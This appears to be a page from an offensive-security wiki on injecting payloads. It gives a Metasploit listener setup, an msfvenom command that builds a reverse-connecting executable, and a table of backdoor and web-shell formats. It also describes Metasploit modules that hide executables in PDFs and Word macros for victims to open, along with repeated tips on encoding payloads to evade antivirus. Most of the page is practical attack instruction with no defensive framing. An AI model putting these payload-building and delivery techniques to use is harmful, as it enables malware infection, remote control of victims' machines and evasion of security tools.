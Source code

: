 # Injecting Payload

## &#x20;Listener&#x20;

```bash
use exploit/multi/handler
```

## Msfvenom to other file

```bash
msfvenom -p <payload> LHOST=YOUR_IP LPORT=4444 -f exe -o payload.exe
```

{% embed url="https://www.clawnix.com/" %}

🧩 `msfvenom` Payload Format Table

| Format Type              | `msfvenom` Flag (`-f`) | File Extension | Typical Use Case                             |
| ------------------------ | ---------------------- | -------------- | -------------------------------------------- |
| **Windows Binary**       | `exe`                  | `.exe`         | Windows executable backdoor or dropper       |
| **Dynamic Link Library** | `dll`                  | `.dll`         | DLL injection or sideloading                 |
| **PowerShell Script**    | `ps1`                  | `.ps1`         | In-memory execution via PowerShell           |
| **Batch Script**         | `raw` (as `.bat`)      | `.bat`         | Simple batch-based payload delivery          |
| **Shellcode (C)**        | `c`                    | `.c`           | Inject into custom C programs                |
| **Shellcode (Python)**   | `python`               | `.py`          | Use with Python loaders                      |
| **Shellcode (Raw)**      | `raw`                  | `.bin`         | Custom loaders or memory injection           |
| **HTA Payload**          | `hta-psh`              | `.hta`         | Used in phishing and browser-based delivery  |
| **Java Payload**         | `jar`                  | `.jar`         | For exploiting Java apps or JNLP delivery    |
| **Android APK**          | _(no flag needed)_     | `.apk`         | Android device backdoor                      |
| **Linux ELF**            | `elf`                  | `.elf`         | Executable on Linux systems                  |
| **macOS Mach-O**         | `macho`                | `.macho`       | Payloads for macOS targets                   |
| **PHP Web Shell**        | `raw`                  | `.php`         | Upload to web servers for command execution  |
| **ASP Web Shell**        | `asp`                  | `.asp`         | Exploit ASP-based web servers                |
| **JSP Web Shell**        | `jsp`                  | `.jsp`         | Target Java-based web servers (Tomcat, etc.) |

## Veil Evasion EXE&#x20;

Better msfvenom

{% content-ref url="../defense-evasion/av-evasion-and-obfuscation/encoding/payload-encoding.md" %}
[payload-encoding.md](../defense-evasion/av-evasion-and-obfuscation/encoding/payload-encoding.md)
{% endcontent-ref %}

## PDF Payload

### Metasploit exploits

📄 `exploit/windows/fileformat/adobe_pdf_embedded_exe`

* **Description**: Embeds an EXE into a PDF using **JavaScript** for execution.
* **Technique**: Leverages **JavaScript triggers** inside the PDF to execute the embedded EXE when the victim opens the file.
* **More reliable** on older versions of Adobe Reader where JavaScript execution is enabled.
* **More likely to be flagged** by AV or sandbox because JavaScript in PDFs is a red flag.

#### 🔥 Pros:

* Higher chance of execution **if JavaScript is allowed**.
* Can be more dynamic and interactive (e.g., auto-launch on open).

#### ❌ Cons:

* Depends on **JavaScript being enabled** in Adobe Reader.
* Newer versions of Adobe Reader **disable or restrict JS** by default.
* Easier for security tools to detect.

{% hint style="warning" %}
To encode the pdf to avoid AV we need to use a custom msfvenom exe and not the default exploit exe, that we encoded and then on the exploit settings we set the exe
{% endhint %}

***

📄 `exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs`

* **Description**: Same as the above but **without JavaScript**.
* **Technique**: Embeds the EXE inside a PDF **without using JS to trigger it**.
* Requires **manual interaction** by the victim (e.g., double-clicking a file icon inside the PDF).
  * Less suspicious to AV because it doesn’t rely on script-based triggers.

#### 🔥 Pros:

* **Better AV evasion** — no JavaScript means fewer red flags.
* **Works even if JavaScript is disabled** in Adobe Reader.

#### ❌ Cons:

* **Less reliable** because it depends on user interaction.
* May be harder to convince someone to execute the embedded EXE.

{% hint style="warning" %}
To encode the pdf to avoid AV we need to use a custom msfvenom exe and not the default exploit exe, that we encoded and then on the exploit settings we set the exe
{% endhint %}

### Pdf revshell maker

{% embed url="https://github.com/ASTRA-LabsHQ/Malware-Development/tree/main" %}

{% file src="../../../../.gitbook/assets/PDFReverseShell.zip" %}

{% embed url="https://www.youtube.com/watch?v=ygrVBsBw31Y" %}

### Setoolkit

Modules

## &#x20;MS Word Payload

```
use exploit/windows/fileformat/office_word_macro
```

* Generates `.doc` file with VBA macro that drops & runs a payload.
* Works regardless of Office version **if macros are enabled**.
* AV may catch the macro or payload — obfuscation is key.

{% hint style="warning" %}
To encode the word file to avoid AV we need to use a custom msfvenom exe and not the default exploit exe, that we encoded and then on the exploit settings we set the exe
{% endhint %}
